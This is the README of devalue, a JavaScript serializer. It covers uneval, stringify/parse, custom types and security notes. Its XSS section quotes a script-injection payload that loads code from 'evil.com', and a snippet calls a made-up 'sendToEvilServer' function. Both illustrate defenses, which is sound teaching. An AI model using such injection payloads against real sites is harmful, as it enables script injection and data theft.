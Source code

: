 ```yaml
---
project: devalue
stars: 2194
description: Gets the job done when JSON.stringify can't
---
```


devalue
=======

Like `JSON.stringify`, but handles

-   cyclical references (`obj.self = obj`)
-   repeated references (`[value, value]`)
-   `undefined`, `Infinity`, `NaN`, `-0`
-   regular expressions
-   dates
-   `Map` and `Set`
-   `BigInt`
-   `ArrayBuffer` and Typed Arrays
-   custom types via replacers, reducers and revivers

Try it out here.

Goals:
------

-   Performance
-   Security (see XSS mitigation)
-   Compact output

Non-goals:
----------

-   Human-readable output
-   Stringifying functions

Usage
-----

There are two ways to use `devalue`:

### `uneval`

This function takes a JavaScript value and returns the JavaScript code to create an equivalent value — sort of like `eval` in reverse:

import \* as devalue from 'devalue';

let obj \= { message: 'hello' };
devalue.uneval(obj); // '{message:"hello"}'

obj.self \= obj;
devalue.uneval(obj); // '(function(a){a.message="hello";a.self=a;return a}({}))'

Use `uneval` when you want the most compact possible output and don't want to include any code for parsing the serialized value.

### `stringify` and `parse`

These two functions are analogous to `JSON.stringify` and `JSON.parse`:

import \* as devalue from 'devalue';

let obj \= { message: 'hello' };

let stringified \= devalue.stringify(obj); // '\[{"message":1},"hello"\]'
devalue.parse(stringified); // { message: 'hello' }

obj.self \= obj;

stringified \= devalue.stringify(obj); // '\[{"message":1,"self":0},"hello"\]'
devalue.parse(stringified); // { message: 'hello', self: \[Circular\] }

Use `stringify` and `parse` when evaluating JavaScript isn't an option.

### `unflatten`

In the case where devalued data is one part of a larger JSON string, `unflatten` allows you to revive just the bit you need:

import \* as devalue from 'devalue';

const json \= \`{
  "type": "data",
  "data": ${devalue.stringify(data)}
}\`;

const data \= devalue.unflatten(JSON.parse(json).data);

Custom types
------------

You can serialize and deserialize custom types by passing a second argument to `stringify` containing an object of types and their _reducers_, and a second argument to `parse` or `unflatten` containing an object of types and their _revivers_:

class Vector {
	constructor(x, y) {
		this.x \= x;
		this.y \= y;
	}

	magnitude() {
		return Math.sqrt(this.x \* this.x + this.y \* this.y);
	}
}

const stringified \= devalue.stringify(new Vector(30, 40), {
	Vector: (value) \=> value instanceof Vector && \[value.x, value.y\]
});

console.log(stringified); // \[\["Vector",1\],\[2,3\],30,40\]

const vector \= devalue.parse(stringified, {
	Vector: (\[x, y\]) \=> new Vector(x, y)
});

console.log(vector.magnitude()); // 50

If a function passed to `stringify` returns a truthy value, it's treated as a match.

You can also use custom types with `uneval` by specifying a custom replacer:

devalue.uneval(vector, (value, uneval) \=> {
	if (value instanceof Vector) {
		return \`new Vector(${value.x},${value.y})\`;
	}
}); // \`new Vector(30,40)\`

Note that any variables referenced in the resulting JavaScript (like `Vector` in the example above) must be in scope when it runs.

Error handling
--------------

If `uneval` or `stringify` encounters a function or a non-POJO that isn't handled by a custom replacer/reducer, it will throw an error. You can find where in the input data the offending value lives by inspecting `error.path`:

try {
	const map \= new Map();
	map.set('key', function invalid() {});

	uneval({
		object: {
			array: \[map\]
		}
	});
} catch (e) {
	console.log(e.path); // '.object.array\[0\].get("key")'
}

XSS mitigation
--------------

Say you're server-rendering a page and want to serialize some state, which could include user input. `JSON.stringify` doesn't protect against XSS attacks:

const state \= {
	userinput: \`</script><script src='https://evil.com/mwahaha.js'>\`
};

const template \= \`
<script>
  // NEVER DO THIS
  var preloaded = ${JSON.stringify(state)};
</script>\`;

Which would result in this:

<script\>
	// NEVER DO THIS
	var preloaded \= {"userinput":"
</script\>
<script src\="https://evil.com/mwahaha.js"\>
	"};
</script\>

Using `uneval` or `stringify`, we're protected against that attack:

const template \= \`
<script>
  var preloaded = ${uneval(state)};
</script>\`;

<script\>
	var preloaded \= {
		userinput:
			"\\\\u003C\\\\u002Fscript\\\\u003E\\\\u003Cscript src='https:\\\\u002F\\\\u002Fevil.com\\\\u002Fmwahaha.js'\\\\u003E"
	};
</script\>

This, along with the fact that `uneval` and `stringify` bail on functions and non-POJOs, stops attackers from executing arbitrary code. Strings generated by `uneval` can be safely deserialized with `eval` or `new Function`:

const value \= (0, eval)('(' + str + ')');

Other security considerations
-----------------------------

While `uneval` prevents the XSS vulnerability shown above, meaning you can use it to send data from server to client, **you should not send user data from client to server** using the same method. Since it has to be evaluated, an attacker that successfully submitted data that bypassed `uneval` would have access to your system.

When using `eval`, ensure that you call it _indirectly_ so that the evaluated code doesn't have access to the surrounding scope:

{
	const sensitiveData \= 'Setec Astronomy';
	eval('sendToEvilServer(sensitiveData)'); // pwned :(
	(0, eval)('sendToEvilServer(sensitiveData)'); // nice try, evildoer!
}

Using `new Function(code)` is akin to using indirect eval.

See also
--------

-   lave by Jed Schmidt
-   arson by Ben Newman. The `stringify`/`parse` approach in `devalue` was inspired by `arson`
-   oson by Steffen Trog
-   tosource by Marcello Bastéa-Forte
-   serialize-javascript by Eric Ferraiuolo
-   jsesc by Mathias Bynens
-   superjson by Blitz
-   next-json by Daniele Ricci

License
-------

MIT
